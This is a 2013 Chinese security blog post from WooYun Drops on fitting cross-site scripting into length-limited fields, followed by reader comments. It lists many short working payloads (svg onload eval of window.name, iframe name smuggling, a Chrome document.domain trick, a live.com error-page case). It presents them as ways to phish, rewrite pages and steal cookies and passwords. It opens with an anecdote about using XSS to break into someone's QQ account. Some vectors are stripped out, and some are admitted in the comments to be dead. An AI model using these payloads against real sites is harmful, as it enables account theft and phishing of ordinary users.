# Short XSS

2013/08/21 12:17 | [Crackkay](http://drops.wooyun.org/author/Crackkay "由 Crackkay 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

关键时候长度不够怎么办？

在实际的情况中如果你不够长怎么办呢？看医生？吃药？做手术？。。。。。。。。。。。。。。算了，既然自身硬件不足，那么就把缺点变优点吧。熟话说：小是小威力好。

熟话说的好，要能长能短，收放自如。在很多的情况中，我们构造的语句是被限制在一定的字符数内。所以这个就是考验你能短的时候能不能短，能长的时候能不能长的时候到了。

## 0x01 现实中的悲剧

* * *

这是一个活生生的悲剧，一个平台上面，一个二逼朋友有妹子的平台账号，但是二逼朋友想进妹子的 QQ 空间，用平台的备注插 QQ-XSS 代码，但是因为限制的字符太短，最终抱头痛哭。于是就有了下图所发生：


## 0x02 怎么变”短”

* * *

```
"><script>alert(1)</script> 

```

.............................27 letters?

##### Alert(1)? No Run?

#### Impossible?

### No!

在实际情况中，可以通过`<h1>`短向量或者其他的短向量去测试存在 XSS 的地方，为什么可以这样？HTML 是一门”不太严格”的解释语言，即使没有`</h1>`，很多浏览器也照样可以解释为

```
<h1>xss</h1>

```

### `<h1>`xss

S1:



S2:



S3：



但是如果在攻击的时候，我往往需要用到很多标签、属性来达到我们的目的。下面列出一些比较猥琐的利用

### `<svg/onload=domain=id>`

S1:在 chrome 浏览器存在一个同域读取漏洞，为什么说同域呢？

S2:在 chrome 下如果我们访问 www.baidu.com，通过控制台来设置一下域为空，document.domain=""，就会出现以下的错误。



S3:为什么说 chrome 浏览器存在一个同域读取漏洞呢?下面我们通过访问 www.baidu.com.来访问一下（com 后面还有一个.）并设置一下域为空

```
document.domain=""

```

设置结果就会出现以下图片所示。



S4:这个怎么利用？

首先说一个问题，就是说，在同域的情况下，DOM 是互通的。就相当于我 a 可以写 b 的，b 也可以同样写 a 的。那我们该怎么来利用呢？我们可以干很多事情，比如说重写页面钓鱼，或者盗取同域 Cookie。下面我就用 Chrome 的控制台来演示一下这个内容读取漏洞。

S5:先来看看两段代码：

本地构造的攻击页面如下：

```
<!DOCTYPE html>
<html>
　　<body>
    <h1>这是 a.com./12.html</h1>
    <svg/onload=domain=id>
　　</body>
</html>

```

存在缺陷的 XSS 页面如下：

```
<!DOCTYPE html>
<html>
　　<body>
    <h1>这是 b.com./11.html</h1>
　　  <svg/onload=domain=id>
　　</body>
</html>

```

S6:下面我们通过访问我们构造的攻击页面，也就是 a.com./12.html，然后读取 domain 看看，结果如下图：



S7:然后我们在控制台里面用 window.open()方法打开打开存在缺陷的 XSS 页面.然后同样用 domain 查看域.



S8:我们从上面就可以查看出，现在 a.com.和 b.com.都是处于同一域下面，那么就可以实现 DOM 相通的概念了。

S9:通过 DOM 重写页面测试，测试结果如下图：



S10:其实这个方法的用处很多，比如说我找到 XXX 的 XSS 页面，我通过把域置空，然后在自己站上构造一个页面，怎么构造就要看你的思维了，通过同域的 DOM 操作，可以钓鱼的方式盗取 COOKIE、密码等。

### `<svg/onload=eval(name)>`

S1:先把代码文译一下：

```
<svg/onload=eval(window.name)>

```

S2:这一段代码通过 svg 载入的时候执行 onload 事件，执行的时候通过 windows.name 传递给 eval 执行，如果我们自己构造一个攻击页面，然后传递的 XSS 代码呢？下面看一段代码：

本地构造的攻击页面：

```
<!DOCTYPE html>
<html>
　　<body>
    <iframe src="11.html" name="alert(1)"></iframe>
　　</body>
</html>

```

存在缺陷的 XSS 页面：

```
<!DOCTYPE html>
<html>
　<body>
    <svg/onload=eval(name)>
　</body>
</html>

```

S3:然后运行页面，测试结果如下：


### `<i/onclick=URL=name>`

S1:上面的代码文译一下：

```
<i/onclick=document.URL=window.name>

```

S2:其实这段代码和上一段差不多多少，这里就不截图了，简单的讲解一下。通过点击执行事件把 window.name 的内容给 document.URL 然后执行 javascript 代码。那么我们可以怎么利用呢？

存在缺陷的 XSS 页面如下：

```
<!DOCTYPE html>
<html>
    <body>
        <i/onclick=URL=name>
    </body>
</html>

```

本地构造的攻击页面如下：

```
<!DOCTYPE html>
<html>
    <body>
        <iframe src="11.html" name="javascript:alert(1)"></iframe>
    </body>
</html>

```

### ``

S1:先把代码文译一下：

```


```

S2:邪恶的 eval 又来了。通过 img 元素的 src 属性出错，执行 onerror 事件，通过邪恶的 eval 执行 window.name 里面的代码。

S3:那我们怎么来实现呢？

本地构造的攻击页面如下：

```
<!DOCTYPE html>
<html>
    <body>
        <iframe src="11.html" name="alert(1)"></iframe>
    </body>

```

存在缺陷的 XSS 页面如下：

```
<!DOCTYPE html>
<html>
    <body>
        
    </body>
</html>

```

其实有很多用法，当然你也可以直接:

```


```



还可以

```


```



还可以通过调用元素属性，或者是程序员自写的 js 代码



### ``

S1:通过 img 元素的 src 属性出错，执行 onerror 事件.

S2:用 with 定位到 body，通过 DOM 的一个 createElement 方法创建一个 script 元素，并使用 script 的 src 属性指向需要调用的外部 js 文件。从而达到攻击的目的。

S3:这个就不讲解了，都应该能够看懂

## 0x03 实例

* * *

下面引用长谷川的 PPT 的一部分（此 PPT 引用经过作者同意）





通过查看源代码：

地址：

```
https://*.live.com/?param=><h1>XSSed</h1><!--

#!html
<!-- Version: "13.000.20177.00" Server: BAYIDSLEG1C38; DateTime: 2012/05/01 15:13:23 -->
<input type="hidden" value="MESSAGE: A potentially dangerous Request.QueryString value was detected from the client (param="><h1>XSSed</h1><!--").
SOURCE: System.Web FORM:" /> 
```

找出了 XSS 的原因是由错误消息引起的 XSS

然后通过攻击者自己构造的页面构造 XSS，并成功实现。

```
<iframe src="target" name="javascript:alert(1)">

```

（或者使用 JavaScript 的 window.open）

最终：作者通过 21 个字符实现 XSS（关于实现的方法请见上面的一些比较猥琐的利用元素标签）

代码为：

```
><i/onclick=URL=name>

```

当然 22 个字符也有很多方法(//后面为我们构造的代码开始) 20 Letters

```
<input type=hidden value=//><i/onclick=URL=name>

```

22 Letters

```
<input type=hidden value="//"><i/onclick=URL=name>">

```

17 Letters

```
<input type=text value= //onclick=URL=name>

```





## 0x04 挑战最”短”

* * *

这个活动是国外一个网站发布的，名为 XSS challenge，大家有兴趣可以讨论一下 19 Letters

```
<x/x=&{eval(name)}; 
```

22 Letters

```
<svg/onload=eval(name) 
```

最短的 javascript 执行代码，考验你”短”的时候到了

```
10 Letters eval(name)
9 Letters eval(URL)
8 Letters URL=name
6 Letters $(URL) 
```

## 0x05 总结

* * *

Javascript 是一门很好玩的解释型语言，每次去研究这些 XSS 点的时候会有很多乐趣，你越不相信这个点有 XSS，那么就越要去研究这个点是否有 XSS。

其实呢~~~这些技术可以称为猥琐流。。。因为不是按正常的逻辑思维是想不到这些的，除非那些思想很猥琐的人。~~~~~~~

欢迎你加入猥琐这个团队，让我们一起猥琐吧。

**Tags:** [xss](http://drops.wooyun.org/tag/xss)

版权声明：未经授权禁止转载 [Crackkay](http://drops.wooyun.org/author/Crackkay "由 Crackkay 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [CVE-2012-0053 详解](http://drops.wooyun.org/papers/501)
*   [一次 SWF XSS 挖掘和利用](http://drops.wooyun.org/papers/44)
*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)
*   [Bypass IE XSS Filter](http://drops.wooyun.org/tips/159)
*   [Zmap 详细用户手册和 DDOS 的可行性](http://drops.wooyun.org/tools/515)
*   [OAuth 2.0 安全案例回顾](http://drops.wooyun.org/papers/598)

上一篇:[从哲学角度看渗透之关于渗透与高智商电影](http://drops.wooyun.org/tips/510)下一篇:[PHP 非字母数字の代码](http://drops.wooyun.org/tips/508)

### 楼被抢了 27 层了... 抢座、[Rss 2.0](http://drops.wooyun.org/papers/512/feed)或者 [Trackback](http://drops.wooyun.org/papers/512/trackback)

*    瞌睡龙 | 2013/08/21 12:24 | # 

    小伙子总结还不错哦~ :)

    回复该留言
    *    园长 | 2013/08/21 12:25 | # 

        被你领先了几秒钟...
        <x/x=被过滤了

        瞌睡龙 | 2013/08/21 12:24 | #

        园长 | 2013/08/21 12:24 | #

        回复该留言
*    园长 | 2013/08/21 12:24 | # 

    @短短短 <x/x=

    回复该留言
*    1428666 | 2013/08/21 12:43 | # 

    没怎么看懂啊，同域中，访问有 xss 缺陷的页面如何到了本地页面？

    回复该留言
    *    1428666 | 2013/08/21 12:47 | # 

        奥，是让 victim 访问自己搭建的页面，执行有缺陷的页面的 xss 脚本？

        回复该留言
        *    [Crackkay](http://www.crackkay.net/) | 2013/08/21 13:03 | # 

            简化一下：就相当于让两个页面都处于相同域下面，相同域的情况下，两个页面的 DOM 是想通的！

            回复该留言
            *    小胖胖要减肥 | 2013/08/21 13:28 | # 

                其实就跟 webshell 的那个绕过检测有点像哈哈，这个就是绕过长度限制

                回复该留言
                *    1428666 | 2013/08/21 16:43 | # 

                    请详解！

            *    1428666 | 2013/08/21 16:44 | # 

                看了您的主页，了解了下同源策略，这个还要欺骗浏览器是同域吧。

                回复该留言
                *    [Crackkay](http://www.crackkay.net/) | 2013/08/21 17:40 | # 

                    可以这样认为，相当于是 chrome 浏览器的一个漏洞。

            *    1428666 | 2013/08/21 22:58 | # 

                十分感谢！！！

                回复该留言
*    破釜沉舟 | 2013/08/21 19:47 | # 

    这年代，这么认真写文章的人不多了，支持下，受益了

    回复该留言
*    VIP | 2013/08/21 20:07 | # 

    有个问题：作者这个 XSS 是通过同域读取漏洞，也就是假设 wooyun.org 存在一个 XSS 通过 XSS 代码将域置空，然后其他页面就可以通过加载 wooyun.org.来操作目标页面 比如说读 cookies
    但是 wooyun.org 和 wooyun.org.是不同的，就是说 wooyun.org 的 cookies 并不会继承到 wooyun.org. 那么，通过读取 wooyun.org.的 cookies，并不能得到 wooyun.org 的 cookies 吧 求解惑

    回复该留言
    *    心伤的瘦子 | 2013/08/22 12:41 | # 

        钓鱼

        回复该留言
    *    [Crackkay](http://www.crackkay.net/) | 2013/08/22 16:38 | # 

        前辈您好。可以钓鱼，可以通过重写页面，然后直接获取密码

        回复该留言
*    gainover | 2013/08/21 21:42 | # 

    支持小伍，总结的还不错～

    回复该留言
    *    [Crackkay](http://www.crackkay.net/) | 2013/08/22 16:38 | # 

        谢谢二哥。嘿嘿

        回复该留言
*    Sogili | 2013/08/21 21:54 | # 

    很好

    回复该留言
*    xsjswt | 2013/08/22 14:13 | # 

    ```
    <x/x=&{eval(name)};

    ```

    撸主确定这个能执行么。
    我试了一下，不管是规范的写成

    ```
    <x x="&{eval(name)};"></x>

    ```

    还是就像撸主你这样写，在 ff 和 chrome 上都不执行啊

    回复该留言
    *    [Crackkay](http://www.crackkay.net/) | 2013/08/22 16:38 | # 

        您好，这个两句已经失效了。嘿嘿

        回复该留言
        *    suolong | 2013/08/28 00:02 | # 

            你的博客打不开了。

            回复该留言
            *    [Crackkay](http://www.crackkay.net/) | 2013/08/28 11:08 | # 

                可以打开的，昨天正在搬迁。感谢朋友关注！

                回复该留言
*    0x0F | 2013/08/28 22:20 | # 

    <script src=//x.xx/
    19 letters?

    回复该留言
*    px1624 | 2013/09/22 15:53 | # 

    我觉得比较常用的最短 xss 应该是/**/alert(1)/**/分成 3 个写入，一个长度 11 字节

    回复该留言
*    px1624 | 2013/09/22 15:54 | # 

    。。我日，我的 s c r i p t 标签被乌云过滤掉了。。

    回复该留言
*    mramydnei | 2013/10/28 02:49 | # 

    后半部分看着眼熟 原来是 short talk of xss……

    回复该留言
*    戏子 | 2013/11/04 17:33 | # 

    10 字符有人能搞定么。。。

    回复该留言

### 发表评论

点击这里取消回复。<textarea name="comment" cols="50" rows="8" id="comment" tabindex="4"></div> <div class="calibre48"> <input name="captcha" type="text" id="captcha" value="" class="textfield"/>  <label for="comment">验证码*</label> </div> <p class="calibre8"><input name="submit" type="submit" id="submit" tabindex="5" value="发表评论[Ctrl+Enter]"/> <input name="comment_post_ID" type="hidden" id="comment_post_ID" value="512"/> <input name="comment_parent" type="hidden" id="comment_parent" value="0"/> </p> <p class="calibre50"><input name="akismet_comment_nonce" type="hidden" id="akismet_comment_nonce" value="295a386661"/></p> </div> </div> </div> <div id="sidebar" class="calibre5"> <div class="calibre5"> <h3 class="calibre15 sigil_not_in_toc">公告</h3> <div class="calibre5"><span class="calibre13">召唤时事热点以及目前知识库略缺的内容。</span><br class="calibre5"/> 议题召唤中的内容：<br class="calibre5"/><br class="calibre5"/> 1\. 最新的事件分析和安全预警<br class="calibre5"/> 2\. 乌云主站漏洞总结<br class="calibre5"/> 3\. 业内前沿最新技术<br class="calibre5"/><br class="calibre5"/> 如果你觉得有更好的议题方向<br class="calibre5"/> 可以直接 <a href="http://drops.wooyun.org/newsend">投稿</a> 或者发邮件到 drops@wooyun.org</div> </div> <div class="calibre5"> <h3 class="calibre15 sigil_not_in_toc">订阅更新</h3> <ul class="calibre_feed_list"> <li class="calibre4"> <a title="点击订阅" href="../..//feed"></a> <a title="一键订阅到深蓝阅读" target="_blank" href="http://bluereader.org/?do=add&url=drops.wooyun.org/feed"></a> </li> </ul> </div> <div class="calibre5"> <h3 class="calibre15 sigil_not_in_toc">分类</h3> <ul class="calibre_feed_list"> <li class="calibre4"><a title="漏洞分析" href="http://drops.wooyun.org/category/papers">漏洞分析</a> (157) </li> <li class="calibre4"><a title="技术分享" href="http://drops.wooyun.org/category/tips">技术分享</a> (261) </li> <li class="calibre4"><a title="工具收集" href="http://drops.wooyun.org/category/tools">工具收集</a> (28) </li> <li class="calibre4"><a title="业界资讯" href="http://drops.wooyun.org/category/news">业界资讯</a> (27) </li> <li class="calibre4"><a title="查看 运维安全 下的所有文章" href="http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8">运维安全</a> (63) </li> <li class="calibre4"><a title="查看 web 安全 下的所有文章" href="http://drops.wooyun.org/category/web">web 安全</a> (122) </li> <li class="calibre4"><a title="查看 渗透案例 下的所有文章" href="http://drops.wooyun.org/category/pentesting">渗透案例</a> (5) </li> <li class="calibre4"><a title="查看 移动安全 下的所有文章" href="http://drops.wooyun.org/category/mobile">移动安全</a> (25) </li> <li class="calibre4"><a title="查看 无线安全 下的所有文章" href="http://drops.wooyun.org/category/wireless">无线安全</a> (6) </li> <li class="calibre4"><a title="查看 数据库安全 下的所有文章" href="http://drops.wooyun.org/category/database">数据库安全</a> (3) </li> <li class="calibre4"><a title="查看 二进制安全 下的所有文章" href="http://drops.wooyun.org/category/binary">二进制安全</a> (34) </li> </ul> </div> <div class="calibre5"> <h3 class="calibre15 sigil_not_in_toc">最新日志</h3> <ul class="calibre_feed_list"> <li class="calibre4"><a title="隐写术总结" href="http://drops.wooyun.org/tips/4862">隐写术总结</a></li> <li class="calibre4"><a title="PHP 中的内存破坏漏洞利用（CVE-2014-8142 和 CVE-2015-0231）（连载之第一篇）" href="http://drops.wooyun.org/papers/4864">PHP 中的内存破坏漏洞利用（CVE-2014-8142 和 CVE-2015-0231）（连载之第一篇）</a></li> <li class="calibre4"><a title="Exploiting “BadIRET” vulnerability (CVE-2014-9322, Linux kernel privilege escalation)" href="http://drops.wooyun.org/papers/4860">Exploiting “BadIRET” vulnerability (CVE-2014-9322, Linux kernel privilege escalation)</a></li> <li class="calibre4"><a title="显示每个 CPU 的 IDT 信息" href="http://drops.wooyun.org/tips/4854">显示每个 CPU 的 IDT 信息</a></li> <li class="calibre4"><a title="深入分析 Fiesta Exploit Kit" href="http://drops.wooyun.org/tips/4858">深入分析 Fiesta Exploit Kit</a></li> <li class="calibre4"><a title="Win10 安全特性之执行流保护" href="http://drops.wooyun.org/tips/4839">Win10 安全特性之执行流保护</a></li> <li class="calibre4"><a title="RansomWeb:一种新兴的 web 安全威胁" href="http://drops.wooyun.org/papers/4834">RansomWeb:一种新兴的 web 安全威胁</a></li> <li class="calibre4"><a title="由 Ghost 漏洞引发的“血案”" href="http://drops.wooyun.org/papers/4823">由 Ghost 漏洞引发的“血案”</a></li> <li class="calibre4"><a title="理解 php 对象注入" href="http://drops.wooyun.org/papers/4820">理解 php 对象注入</a></li> <li class="calibre4"><a title="使用 sqlmap 中 tamper 脚本绕过 waf" href="http://drops.wooyun.org/tools/4760">使用 sqlmap 中 tamper 脚本绕过 waf</a></li> </ul> </div> <div class="calibre5"> <h3 class="calibre15 sigil_not_in_toc">最新评论</h3> <ul class="calibre_feed_list"><li class="calibre4"><span>正在加载...</span></li> <li id="rc-comment-temp" class="calibre4"><div class="calibre5"/><div class="calibre5"/><div class="calibre5"/></li> <li id="rc-ping-temp" class="calibre4"><span/></li> </ul> </div> </div> <div id="footer" class="calibre5"> Powered by <a href="http://wordpress.org/">WordPress</a> | GZai Theme by <a title="GZai Theme produced by 鬼仔" href="http://huaidan.org/">鬼仔</a> </div> <div class="calibre47"> </div> </body></html></textarea>